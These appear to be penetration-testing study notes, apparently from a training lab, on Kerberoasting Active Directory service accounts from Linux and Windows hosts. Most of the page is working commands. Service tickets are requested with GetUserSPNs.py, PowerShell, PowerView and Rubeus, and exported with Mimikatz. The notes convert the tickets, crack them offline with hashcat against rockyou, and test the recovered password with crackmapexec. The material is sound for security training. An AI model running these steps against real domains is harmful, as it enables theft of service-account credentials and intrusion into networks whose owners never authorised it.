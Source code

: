 # Kerberoasting

### Kerberoasting Overview

* This attack targets Service Principal Names (SPNs) accounts.
  * [purpose-of-service-principal-names-spn-in-active-directory.md](../blog/purpose-of-service-principal-names-spn-in-active-directory.md "mention")
    * SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running
      * Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

### Kerberoasting - Performing the Attack

* Depending on your position in a network, this attack can be performed in multiple ways:
  * From a non-domain joined Linux host using valid domain user credentials.
  * From a domain-joined Linux host as root after retrieving the keytab file.
  * From a domain-joined Windows host authenticated as a domain user.
  * From a domain-joined Windows host with a shell in the context of a domain account.
  * As SYSTEM on a domain-joined Windows host.
  * From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

## Kerberoasting - from Linux

### Kerberoasting with GetUserSPNs.py

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```



<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Requesting all TGS Tickets

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```



<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Requesting a Single TGS ticket

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

#### Cracking the Ticket Offline with Hashcat

* crack with [hashcat.md](hashcat.md "mention")



```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

* password is database!

**Testing Authentication against a Domain Controller**

* [crackmapexec.md](crackmapexec.md "mention")

```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## Kerberoasting - from Windows

### Manual way

#### Enumerating SPNs with setspn.executes

```cmd-session
setspn.exe -Q */*
```

#### Targeting a Single User

```powershell-session
Add-Type -AssemblyName System.IdentityModel
```

```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

* The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
* The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
* [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
* We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
* We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

#### Retrieving All Tickets Using setspn.exe

```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### Extracting Tickets from Memory with Mimikatz



* [mimikatz.md](mimikatz.md "mention")

```cmd-session
mimikatz # base64 /out:true
```

```cmd-session
mimikatz # kerberos::list /export  
```

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

```shell-session
kirbi2john.py sqldev.kirbi
```

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

* [hashcat.md](hashcat.md "mention")

```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated / Tool Based Route

#### Using PowerView to Extract TGS Tickets

```powershell-session
Import-Module .\PowerView.ps1
```

```powershell-session
Get-DomainUser * -spn | select samaccountname
```

#### Using PowerView to Target a Specific User

```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Exporting All Tickets to a CSV File

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Using Rubeus

```powershell-session
.\Rubeus.exe kerberoast /stats
```

```powershell-session
 .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Using the /tgtdeleg Flag

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* `/tgtdeleg` flag, the tool requested an RC4 ticket even though the supported encryption types are listed as AES 128/256

## Reference

* https://adsecurity.org/?p=3458
